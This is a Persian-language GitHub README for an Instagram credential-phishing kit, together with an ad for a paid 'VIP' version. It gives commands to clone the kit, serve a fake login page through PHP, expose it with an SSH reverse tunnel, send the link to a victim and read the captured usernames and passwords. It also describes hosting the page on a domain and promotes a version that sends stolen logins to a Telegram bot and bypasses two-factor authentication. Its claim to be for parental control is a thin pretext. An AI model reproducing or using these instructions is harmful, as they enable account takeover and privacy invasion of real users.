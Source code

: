 # hack-instagram

<img src="pic1.png">
<h2>
آموزش هک اینستاگرام با ارسال لینک در ترموکس
</h2>
<h5>⚠️توجه کنید که این آموزش صرفا جهت کنترل فرزندان هست و مسئولیت و عواقب هرگونه ورود به حریم خصوصی افراد با خود شخص خواهد بود
</h5><h3>
⚙آموزش استفاده از اسکریپت:
</h3>

<h5>
ابتدا وارد ترموکس شوید:
</h5>
<h6>
اگه آموزش ترموکس رو بلد نیستید از لینک زیر آموزش رو مطالعه کنید:
< >آموزش ترموکس</a>
<br>
<br>
سپس در ترموکس با دستور زیر اسکریپت رو دانلود کنید:
<br><pre>
git clone https://github.com/ismailkob1/hack-instagram-html
</pre>
سپس با دستور زیر وارد پوشه اسکریپت بشید:
<br><pre>
cd hack-instagram-html
</pre>
<div>
سپس لوکال هاست رو با کد زیر اجرا کنید:
<pre>
php -S 127.0.0.1:3000
</pre>
و صفحه ای جدید باز کنید با دستور زیر پورت فرواردینگ رو اجرا کنید:
<pre>
ssh -R 80:127.0.0.1:3000 nokey@localhost.run
</pre>
<br>
سپس لینک ساخته شده رو به تارگت بدید ، و بعد از ارسال لینک در ترموکس توی صفحه اول این دستور رو وارد کنید تا پسورد و یوررنیمی که تارگت وارد کرده مشاهده کنید:
<pre>
cat usernames.txt
</pre>
</br>

_______________________________________

</h6>
روش دوم با استفاده از هاست و دامنه:👇
</h6>
<h6>
ابتدا اسکریپت را از لینک زیر دانلود کنید:
<br>
https://github.com/ismailkob1/hack-instagram-html/archive/refs/heads/main.zip
<br>
و یک هاست و دامنه تهیه کنید و فایل اسکریپت رو در اون آپلود کنید و لینک رو به تارگت بدید ، 
<br>
وقتی قربانی رمز و یورزنیمش رو در صفحه وارد کنه فایلی به نام usernames.txt در هاست شما ذخیره میشه که در اون میتونید یورزنیم و رمز اینستاگرام فرد رو مشاهده کنید.
</br>

_______________________________________

</h6>
<h4>
⭐نسخه VIP هک اینستاگرام با ارسال لینک⭐
</h4>
<h6>
نسخه رایگانی که بالا قرار دادیم کار میکنه و میتونید پسورد و یورزنیم قربانی رو هم در ترموکس دریافت کنید اما اگه قابلیت های بیشتری میخواید میتونید نسخه vip این اسکریپت رو خریداری کنید!
<br>
در نسخه vip این اسکریپت میتونید دو نوع فیک  پیج مختلف رو داشته باشید یکی به اسم افزایش فالوور و یکی دیگه به اسم نمایش پست پیج های خصوصی اینستاگرام که تصاویرشون رو میتونید مشاهده کنید:👇
<br>
<img src="pic2.png">
<br>
<img src="pic3.png">
<br>
<h5>
⭐قابلیت های نسخه vip:</h5>
<h6>
📥دریافت اطلاعات در ربات تلگرام 
<br>
📨قابلیت دور زدن تایید دومرحله ای 
<br>
📦فیک پیج افزایش فالوور با طراحی حرفه ای
<br>
📦فیک پیج نمایش پست پیج های خصوصی
<br>
<br>
🛒جهت خرید نسخه vip و اطلاعات بیشتر به ایدی تلگرامی مراجعه کنید:

<a href="https://t.me/i_kob" >T.me/i_kob</a>
<br>


